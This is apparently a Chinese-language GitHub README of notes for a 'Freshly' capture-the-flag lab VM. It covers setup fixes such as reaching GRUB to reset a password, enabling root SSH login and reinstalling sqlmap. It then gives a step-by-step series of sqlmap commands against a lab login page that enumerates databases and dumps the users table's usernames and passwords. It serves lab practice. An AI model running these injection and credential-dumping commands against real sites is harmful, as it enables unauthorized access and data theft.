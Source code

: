 # 参考
* https://www.freebuf.com/column/162631.html
* https://www.jianshu.com/p/63becdb8c2f8
# 一些环境问题
* 破解密码(为什么要破解是当时俩台虚拟机不在同一个虚拟软件上一直没有扫到对应mac的主机)。
* 1.在没有进入引导前光标切进去长按shift进入grub。
* 2.安装open-server 
* sudo apt-get update 
*  sudo apt-get install openssh-server  
* ps -e | grep ssh
* sudo /etc/init.d/ssh restart
* 3.开启ssh root登录。 vi /etc/ssh/sshd_config
* 4.用tcpdump
* tcpdump -D 
* tcpdump -i eth0 -w file.cap
* 5.用scp
* scp root@107.172.27.254:/home/test.txt .   //下载文件
* 
* scp test.txt root@107.172.27.254:/home  //上传文件
* 
* scp -r root@107.172.27.254:/home/test .  //下载目录
* 
* scp -r test root@107.172.27.254:/home   //上传目录
* 6.靶机我这只能用vmbox打开了，vmware是一直报错，然后俩个不同的虚拟机可能网段不一样，按理全选桥接应该是一个网段的但是有时也不一样，我就一直重启直到俩个虚拟机网段一样，实现不行用vmbox也跑kali(vmware桥接无法分配ip 找到编辑->虚拟机网络编辑器->找到桥接模式那一行的外部链接要选种主机的网卡)。
* 7.靶机apache2服务器有问题，8080与443端口没打开，我就直接翻他的配置文件了，在 /etc/apache2/sites-available/000-default.conf 中有 /var/www/html。
* 8.sqlmap无法更新
* 解决方法： 找到sqlmap的路径/usr/share/salmap
* 
* 执行 cd /usr/share/
* 
* 然后删掉sqlmap   rm -rf sqlmap/
* 
* 然后执行 git clone https://github.com/sqlmapproject/sqlmap
* 
* 克隆到路径即可。

# sqlmap 语句
* 开始扫描漏洞
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3
* 开始扫描数据库
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 --dbs
* 指定数据库扫数据库表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 --tables
* 指定数据库表扫字段
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users--columns
* 指定字段dump表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users -C "password,username" --dump
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/user-pass.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/sqlmap.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/http.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/cve.png)
